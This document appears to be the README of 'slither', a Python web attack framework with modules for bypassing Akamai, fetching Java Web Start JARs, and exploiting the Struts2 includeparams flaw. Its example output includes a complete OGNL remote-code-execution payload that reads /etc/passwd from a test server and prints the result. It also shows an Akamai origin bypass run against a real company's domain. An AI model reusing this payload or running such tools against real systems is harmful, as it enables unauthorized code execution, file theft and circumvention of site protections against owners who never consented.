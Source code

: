 # slither
Python Web Attack Framework
---------------------------
This framework is here to help you in your quest of conquering web applications.  It is currently very BETA, and I am adding modules slow and steadily.  Slither will contain modules to help you attack and exploit, but also handle some pretty obsecure tasks as well.

Current Modules
---------------
akaspy - Bypassing Akamai

jnlp parse - Parse a JNLP file and download the target JAR(s) for a Java Web Start RIA

struts2 params - Validate and exploit the struts2 includeparams vulnerability 

Setup
-----
Slither is written in Python3, and I would suggest setting up a virtualenv after you clone it.  You can use pip to install the requirements.txt - Once you activate the virtualenv, you're good to go!

Examples
--------

```
  _________.__   .__   __   .__
 /   _____/|  |  |__|_/  |_ |  |__    ____  _______
 \_____  \ |  |  |  |\   __\|  |  \ _/ __ \ \_  __ |
 /        \|  |__|  | |  |  |   Y  \   ___/  |  | \/
/_______  /|____/|__| |__|  |___|  / \___  > |__|
        \/                       \/      \/


    
(slither) akaspy origin-www.webex.com webex.com
>>> 2015-01-14 17:25:12,638 Retrieved An Alias! :: global-wwwprodvm.webex.com.
>>> 2015-01-14 17:25:12,640 Getting IP Address :: 173.243.5.18
>>> 2015-01-14 17:25:12,843 Origin Access Possible!

(slither) struts http://127.0.0.1:8080/example/HelloWorld.action params
>>> 2015-01-14 17:37:41,764 Checking Target :: http://127.0.0.1:8080/example/HelloWorld.action
>>> 2015-01-14 17:37:41,773 Starting new HTTP connection (1): 127.0.0.1
>>> 2015-01-14 17:37:41,860 Code Execution Possible! :: pwn
>>> 2015-01-14 17:37:41,860 Attempting Execution :: %{(#_memberAccess['allowStaticMethodAccess']=true)(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),#b=#a.getInputStream(), #c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c), #e=new char[5000], #d.read(#e),#slither=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#slither.getWriter().println(#e), #slither.getWriter().flush(), #slither.getWriter().close())}
>>> 2015-01-14 17:37:41,872 Starting new HTTP connection (1): 127.0.0.1
>>> 2015-01-14 17:37:42,061 Execution Success!
>>> 2015-01-14 17:37:42,061 ##
# User Database
# 
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
```
